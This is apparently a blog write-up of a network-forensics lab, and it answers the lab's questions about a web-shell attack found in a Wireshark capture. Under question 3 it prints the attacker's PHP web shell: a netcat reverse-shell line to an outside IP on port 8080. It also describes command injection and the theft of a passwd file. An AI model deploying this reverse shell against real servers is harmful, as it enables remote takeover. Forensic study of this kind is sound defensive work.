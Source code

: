 ```yaml
---
categories: [DFIR, Network Forensics]
tags: [wireshark, web attacks]
---
```


# Web Strike Analysis

## Scenario

An anomaly was discovered within our company’s intranet when the Development team found an unusual file on one of our web servers. Suspecting potential malicious activity, the network team has prepared a pcap file with critical network traffic for analysis by the security team, and you have been tasked with analyzing the pcap.

## Questions

#### 1. Understanding the geographical origin of the attack aids in geo-blocking measures and threat intelligence analysis. What city did the attack originate from?

- This is a simple case of Geolocating using IP addresses. In Wireshark, I found the attacker’s IP by going to `Statistics => Conversations => IPv4`. The IP address of the attacker is 117.11.88.128. Plugging this into `ipgeolocation.io`, I get the country of China and the city of **Tianjin**.

![ipgeolocation.io reponse](https://cdn-images-1.medium.com/max/2000/1*G7Itdk1-5CvYizLZpG3r5w.png)_ipgeolocation.io reponse_

#### 2. Knowing the attacker’s user-agent assists in creating robust filtering rules. What’s the attacker’s user agent?

- The user-agent is found in the HTTP traffic. I selected a packet with the GET method because it’s the first thing I saw; you can choose any HTTP traffic with an HTTP header in the request. In the header of the request, in the user-agent line, there is a value of `Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0`.

#### 3. We need to identify if there were potential vulnerabilities exploited. What’s the name of the malicious web shell uploaded?

- Going to the `Statistics => Protocol Hierarchy`, I immediately saw “Compuserve GIF”

![Wireshark snapshot](https://cdn-images-1.medium.com/max/2000/1*_d772Rdy7xBy4DfDX1wM5w.png)_Wireshark snapshot_

- I remembered that the traffic was filled with requests for different resources on the site. Considering the question stating that a file was uploaded, I immediately extracted all the files in the pcap file. Looking around, I can see OS command injections being done. Looking at the upload(2).php file, we can see that a filename of “image.png.php” was uploaded, containing PHP code with the function of executing a shell and using Netcat to connect to the attacker’s IP address on port 8080. This essentially establishes a reverse shell, allowing the attacker to interact with the compromised server remotely.

- Line of code:

```php
<?php system(“rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f”);
```

#### 4. Knowing the directory where files uploaded are stored is important for reinforcing defenses against unauthorized access. Which directory is used by the website to store uploaded files?

- Looking further into the extracted files, in the upload(2) HTML response, we can see that a document was moved to the `http://shoporoma.com/reviews/uploads/` directory, indicating that the malicious script was stored there.

![](https://cdn-images-1.medium.com/max/2000/1*ozG3rBs0jLdF2E9yq-81uw.png)

#### 5. Identifying the port utilized by the web shell helps improve firewall configurations for blocking unauthorized outbound traffic. What port was used by the malicious web shell?

- This was straightforward, as we already found out from the PHP snippet that the attacker leverages port `8080`.

#### 6. Understanding the value of compromised data assists in prioritizing incident response actions. What file was the attacker trying to exfiltrate?

- Going back to our extracted files, as mentioned earlier, there were logs of OS commands being executed by the attacker. From finding out the current directory to getting the passwdfile, which was the goal of the attacker.

![](https://cdn-images-1.medium.com/max/2000/1*N4pXXpyKflvtigqanP-PJA.png)

#### **Summary**

In this scenario, the attacker found a file upload vulnerability wherein they were able to upload a malicious PHP script (`upload(2).php`). With that script, it then executed a shell that connected back to the attacker, allowing for backdoor access into the system. After gaining reverse shell access, the attacker performed reconnaissance on the environment, determining the directory, files, and the username of the account in the system. Afterward, the attacker exfiltrated the `passwd` file containing passwords for different accounts.

<div id="disqus_thread"></div>
<script>
    /**
    *  RECOMMENDED CONFIGURATION VARIABLES: EDIT AND UNCOMMENT THE SECTION BELOW TO INSERT DYNAMIC VALUES FROM YOUR PLATFORM OR CMS.
    *  LEARN WHY DEFINING THESE VARIABLES IS IMPORTANT: https://disqus.com/admin/universalcode/#configuration-variables    */
    /*
    var disqus_config = function () {
    this.page.url = PAGE_URL;  // Replace PAGE_URL with your page's canonical URL variable
    this.page.identifier = PAGE_IDENTIFIER; // Replace PAGE_IDENTIFIER with your page's unique identifier variable
    };
    */
    (function() { // DON'T EDIT BELOW THIS LINE
    var d = document, s = d.createElement('script');
    s.src = 'https://shun-2.disqus.com/embed.js';
    s.setAttribute('data-timestamp', +new Date());
    (d.head || d.body).appendChild(s);
    })();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>
